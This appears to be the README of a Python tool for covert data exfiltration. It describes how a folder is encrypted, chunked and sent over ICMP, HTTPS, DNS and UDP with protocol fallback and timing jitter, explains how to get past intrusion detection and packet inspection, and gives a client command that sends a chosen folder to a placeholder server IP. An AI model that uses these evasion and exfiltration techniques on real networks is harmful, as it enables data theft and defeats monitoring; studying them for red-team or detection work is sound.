 # **Exfiltration – Adaptive Covert Data Exfiltration**

This project simulates an **adversary exfiltrating data** past network monitoring by dynamically switching **communication protocols**. The system ensures **stealthy, reliable transmission** using various **protocol camouflage techniques**, **adaptive switching**, and **traffic manipulation strategies** to evade detection.

---

## **Design Rationale & Approach**

### **Why This Approach?**

- **Avoids Detection:** Large packet transmissions are **split into small chunks**, making it harder for network monitors to flag unusual traffic.
- **Protocol Flexibility:** Multiple transmission methods allow data exfiltration across networks **with different security policies**.
- **Automatic Adaptation:** If one protocol is blocked, **fallback mechanisms** ensure data is still exfiltrated via an alternative route.
- **Encryption & Integrity:** The entire payload is **AES-encrypted**, ensuring confidentiality even if the data is intercepted.

### **How It Works**

1. **Compression & Encryption** → The folder is first compressed into an archive, then AES-encrypted.
2. **Chunking & Encoding** → The encrypted file is **split into smaller Base64-encoded chunks** to avoid detection.
3. **Protocol Selection** → Chunks are sent via **ICMP, HTTPS, DNS, or UDP**, with **fallback switching** if a protocol is blocked.
4. **Exponential Jitter Delays** → Transmission is **randomized** to mimic normal network traffic patterns.
5. **Reassembly on Server** → The server listens across all four protocols and **reconstructs the original encrypted file**.
6. **Decryption & Extraction** → Once reassembled, the file is decrypted and extracted.

---

## **Protocol Specification**

### **UDP Tunneling**

- **Fast, Stateless Transmission** → UDP does not require a handshake, allowing efficient data transfer.
- **Custom Chunk Headers** → Each chunk includes `session_id`, `chunk_id`, and `total_chunks` for tracking.
- **Retransmission Support** → Since UDP does not guarantee delivery, `MAX_TRIES` ensures retries or fallback to another protocol.

### **HTTPS Exfiltration**

- **Mimics Legitimate Web Traffic** → Data is embedded inside HTTPS POST requests, making detection difficult.
- **Encrypted Payloads** → AES-encrypted chunks ensure the data remains secure even if intercepted.
- **Failsafe Mechanism** → If `MAX_TRIES` is exceeded, an alternative protocol is used.

### **DNS-Based Data Transfer**

- **Abuses Commonly Open Protocols** → DNS is often allowed on networks even when other traffic is restricted.
- **Payloads Sent as Subdomains** → Data is encoded in DNS query subdomains (`session_id.chunk_id.chunk_data.target_domain`).
- **ACK Mechanism for Reliability** → Server responds to confirm chunk reception.

### **ICMP Tunneling**

- **Uses Ping Packets for Exfiltration** → ICMP echo requests (`ping`) are used to transmit data.
- **Avoids Firewalls Filtering TCP/UDP** → ICMP is often ignored by firewalls, making it a useful covert channel.
- **Hex Encoding Due to ICMP Limitations** → Unlike other protocols, ICMP payloads must be sent in hexadecimal format.

---

## **Techniques for Making Traffic Appear Legitimate**

To minimize detection risks, multiple techniques have been incorporated:

### **Small, Randomized Chunk Sizes**

- Large data transfers trigger suspicion, so **data is split into smaller chunks**.
- Chunks **vary in size** to mimic **natural traffic patterns**.

### **Exponential Jitter-Based Delays**

- Each chunk transmission is **delayed using exponential backoff jitter** to **avoid fixed timing patterns**.
- **Short delays are common, long delays occur randomly**, simulating **realistic user activity**.

### **Protocol Mimicry**

- **DNS traffic appears as legitimate DNS queries**, since subdomain lengths follow normal DNS constraints.
- **HTTPS traffic is embedded in POST requests**, blending in with common API interactions and uses **definable User Agent**.

### **Adaptive Switching to Evade Detection**

- If one protocol is blocked, the **system dynamically switches** to another method.
- The **fallback mechanism** ensures exfiltration **continues despite security countermeasures**.

---

## **Potential Detection Methods & Countermeasures**

Even though this system is designed for stealth, **defensive security teams** may still attempt to detect or mitigate exfiltration. Here’s how:

### **Anomaly Detection in Packet Sizes**

- **How it's detected:** IDS/IPS systems flag **unusual ICMP payload sizes**, **large DNS queries**, or **unexpected HTTPS requests**.
- **Countermeasure:** **Chunk sizes are randomized**, and **padding techniques** can be used to make traffic appear more natural.

### **Deep Packet Inspection (DPI)**

- **How it's detected:** DPI can inspect **DNS queries**, **HTTP requests**, or **ICMP payloads** for anomalies.
- **Countermeasure:** Using **AES encryption**, payloads appear **randomized and meaningless** to DPI systems.

### **Traffic Timing & Behavioral Analysis**

- **How it's detected:** Anomalies in packet timing can be identified if data is sent at a **predictable interval**.
- **Countermeasure:** **Exponential jitter delays** prevent predictable patterns, making traffic **blend in with legitimate background noise**.

### **Rate Limiting & Firewall Policies**

- **How it's detected:** Organizations may enforce **rate limits on DNS queries, ICMP requests, or UDP packets**.
- **Countermeasure:** The system **automatically retries chunks** while **adapting protocol selection** to avoid getting blocked.

---

## **Installation**

Make sure Python 3 is installed.

```bash
git clone https://github.com/truncet/py-exfil.git
cd py-exfil
pip install -r requirements.txt
```

---

## **Usage**

### **Start the Server**

Before running the server, generate SSL certificates:
```bash
cd server
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.crt -days 365 -nodes
python3 server.py
```

### **Run the Client**

```bash
cd client
python3 client.py --target-ip <SERVER_IP> --folder <FOLDER_PATH> --target-domain <DOMAIN>
```
- `--target-ip` → Server IP address
- `--folder` → Path of the folder to exfiltrate
- `--target-domain` → Domain for DNS-based exfiltration

---

## **Future Enhancements**

**Traffic Shaping to Resemble Normal Traffic**  
**Dynamic Encryption Key Exchange (RSA instead of Pre-Shared Keys)**  
**Support for Additional Covert Channels (e.g., SMTP, VoIP)**  
**Metadata Encryption to Further Obfuscate Chunk Tracking**  

---

